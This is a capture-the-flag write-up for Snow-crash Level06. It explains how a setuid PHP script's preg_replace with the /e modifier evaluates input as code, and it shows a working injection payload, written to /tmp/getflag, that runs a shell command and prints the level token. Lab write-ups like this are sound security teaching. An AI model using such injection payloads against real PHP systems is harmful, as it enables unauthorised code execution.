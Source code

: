 ```yaml
---
title:  "Snow-crash Level06"
excerpt: "Project SECURITY. This project is a modest introduction to the wide world of cyber security. A world where you’ll have no margin for errors."

tags:
  - [CyberSecurity,Github, Git]

toc: true
toc_sticky: true

date: 2024-2-14
last_modified_at: 2024-02-14
---
```


#### 1. The password of `Level06` is the token that got from `Level05`.

```
viuaaale9huek52boumoomioc
```
#### 2. So, try login to Level06 with the password we got from Level05 and try to put the command `ls`. We can see the file `Level06`. 
```bash
level05@SnowCrash:/var/mail$ su level06
Password:
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```

We can see the level06.php file, so I tried to execute it first. Nothing came out but we verified that this php file worked correctly.

```bash
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
#### 3. We can convert this to readable at the site below.

[Online PHP beautifier](https://beautifytools.com/php-beautifier.php)

```bash
#!/usr/bin/php
<?php
function y($m) # Define function y
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)  # Define function x
{
    $a = file_get_contents($y); 
    #Read the contents of file $y
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    # Replace [x ...] with the result of calling function y on the captured group (\2)
    $a = preg_replace("/\[/", "(", $a); # Replace [ with (
    $a = preg_replace("/\]/", ")", $a); # Replace ] with )
    return $a;
}
$r = x($argv[1], $argv[2]); #all function x with command line arguments
print $r; #Print the result
?>
```

If we break down in to the php code,

* Function y($m):

    * Replaces dots (.) with spaces (' x ') and replaces '@' with the string 'y' in the string $m, then returns the result.

* Function x($y, $z): takes two inputs

    * Reads the contents of the file specified by $y and stores it in $a.
    
    * /(\[x (.*)\])/e : The given regular expression is a regular expression used in PHP. It matches a string starting with "x" inside square brackets. The part inside the square brackets is a capture group represented by the pattern (.\*), which matches any string.

    * /e: This flag evaluates the matched pattern and returns it. It is a special flag used only in PHP, allowing the matched pattern to be evaluated as PHP code.

    * Replaces remaining [ and ] characters with ( and ), respectively.

    * Returns the result.

* Variable $r:

    * Stores the result of the x() function call.

* Output:

    * Prints the result.

In summary, this regular expression finds the pattern [x ...] in a string and evaluates it as PHP code, enabling the string to be transformed into dynamically executable PHP code.

<details>
<summary> Example Regex (Regular expression) </summary>
<br><br>
For example, consider the following string:
<br><br>

<pre>
<code>
[x echo "Hello, world!"]
</code>
</pre>
Suppose you want to find the [x ...] part in this string and execute PHP code inside it.
<br><br>
In this case, you can use the regular expression /(\[x (.*)\])/e, and with this regular expression, you can use the preg_replace() function in PHP as follows:

<pre>
<code>
$string = "[x echo \"Hello, world!\"]";
$result = preg_replace('/(\[x (.*)\])/e', "$2", $string);
echo $result; // Output: Hello, world!
</code>
</pre>
<br>
In the above code, $2 represents the second capture group, which corresponds to the PHP code inside the [x ...] part. <br><br>Therefore, the preg_replace() function finds the matching pattern [x ...], evaluates and executes the PHP code inside it (in this case, echo "Hello, world!"), and returns the result.<br><br> 
In this case, it returns the string "Hello, world!"."


</details>

#### 4. We want to modify the input string `[x (anything here)]` so that the second capture group in the regular expression will be replaced by `${'getflag'}`. This way, when the function y() is called, it will execute the command getflag.

#### 5. So, our modified input string should be [x ${'getflag'}]. This will allow us to use variable interpolation to execute the getflag command within the y() function.

```bash
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/getflag
level06@SnowCrash:~$ cat /tmp/getflag
[x {${`getflag`}}]
```

#### 6. And we can get the password as below.

```bash
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable:
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
 ```

 #### 7. Password

 ```bash
 Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 ```